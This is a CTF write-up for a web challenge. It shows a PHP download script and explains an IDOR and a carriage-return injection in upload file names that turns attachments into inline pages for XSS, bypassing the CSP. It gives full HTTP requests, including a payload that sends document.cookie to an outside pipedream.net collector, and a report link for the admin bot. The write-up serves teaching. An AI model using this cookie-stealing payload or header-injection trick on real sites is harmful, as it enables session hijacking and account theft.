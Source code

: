 ## warmup-revenge

There are hidden files that are not shown on the website navbar like `download.php` which will help download files uploaded on the board when writing articles and `report.php` which will report a link to the admin bot to visit. This is the code for `download.php`:

```php
<?php
	include('./config.php');
	ob_end_clean();

	if(!trim($_GET['idx'])) die('Not Found');
	
	$query = array(
		'idx' => $_GET['idx']
	);

	$file = fetch_row('board', $query);
	if(!$file) die('Not Found');

	$filepath = $file['file_path'];
	$original = $file['file_name'];

	if(preg_match("/msie/i", $_SERVER['HTTP_USER_AGENT']) && preg_match("/5\.5/", $_SERVER['HTTP_USER_AGENT'])) {
	    header("content-length: ".filesize($filepath));
	    header("content-disposition: attachment; filename=\"$original\"");
	    header("content-transfer-encoding: binary");
	} else if (preg_match("/Firefox/i", $_SERVER['HTTP_USER_AGENT'])){
	    header("content-length: ".filesize($filepath));
	    header("content-disposition: attachment; filename=\"".basename($file['file_name'])."\"");
	    header("content-description: php generated data");
	} else {
	    header("content-length: ".filesize($filepath));
	    header("content-disposition: attachment; filename=\"$original\"");
	    header("content-description: php generated data");
	}
	header("pragma: no-cache");
	header("expires: 0");
	flush();

	$fp = fopen($filepath, 'rb');

	$download_rate = 10;

	while(!feof($fp)) {
	    print fread($fp, round($download_rate * 1024));
	    flush();
	    usleep(1000);
	}
	fclose ($fp);
	flush();	
?>
```

First thing to note is that we have an IDOR that let us access to any file to download having it’s ID and some kind of CRLF that would let us overwrite the `content-disposition` header making the response an inline page with the content of the file to download instead of downloading the file and not showing it’s content on the page making XSS possible.

```php
header("content-disposition: attachment; filename=\"$original\"");
```

We could overwrite the header if we include a carriage return `\r` and some characters after it like `asdf\rjunk.html`

The `board.php` is letting us upload files as attachment in the article and it’s taking the filename as it is making CRLF possible:

```php
$insert['file_name'] = $_FILES['file']['name'];
```

We also have a CSP

```http
Content-Security-Policy: default-src 'self'; style-src 'self'
```

This CSP would let us include scripts from same domain a simple bypass would be to upload first a file containing the javascript code to execute then another file to include that js code from the `download.php` page.

So first request would be:

```http
POST /board.php?p=write HTTP/1.1
Host: 58.225.56.195
Content-Length: 681
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://58.225.56.195
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydFZmSiashN04RJ1C
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://58.225.56.195/board.php?p=write
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=23c454a3f075dc9dc737e6fe71a98644
Connection: close

------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="title"

testy
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="content"

asdf
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="level"

1
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="file"; filename="myFile.html"
Content-Type: text/html

document.location="https://enwau6gu4zv3.x.pipedream.net/?x=".concat(encodeURIComponent(document.cookie));
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="password"

benjeddou
------WebKitFormBoundarydFZmSiashN04RJ1C--
```

We could get the uploaded file from: http://58.225.56.195/download.php?idx=975

Now we upload the second file with the return carriage in its name to load the first file as a script. \r is replaced with the carriage return in the below request because doing url encode didn’t work correctly so I needed to change hex of request in burpsuite to inject the carriage return.

![img](./images/20231018_0010066709.png)

```http
POST /board.php?p=write HTTP/1.1
Host: 58.225.56.195
Content-Length: 681
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://58.225.56.195
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydFZmSiashN04RJ1C
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://58.225.56.195/board.php?p=write
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=23c454a3f075dc9dc737e6fe71a98644
Connection: close

------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="title"

testy
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="content"

asdf
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="level"

1
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="file"; filename="AA\r.html"
Content-Type: text/html

<script src="/download.php?idx=975"></script>
------WebKitFormBoundarydFZmSiashN04RJ1C
Content-Disposition: form-data; name="password"

benjeddou
------WebKitFormBoundarydFZmSiashN04RJ1C--
```

The above uploaded file coulod be accessed from: http://58.225.56.195/download.php?idx=976
Reporting the final file to admin will get us the flag using the following link: http://58.225.56.195/report.php?path=download.php&idx=976

![img](./images/20231018_0010084466.png)

## 总结

本题主要的考点就是通过CSRL来改变`content-disposition`

通过文件名加入`\r`，使页面不是直接下载附件，而是以内联的形式呈现在网页上，使得XSS成为可能

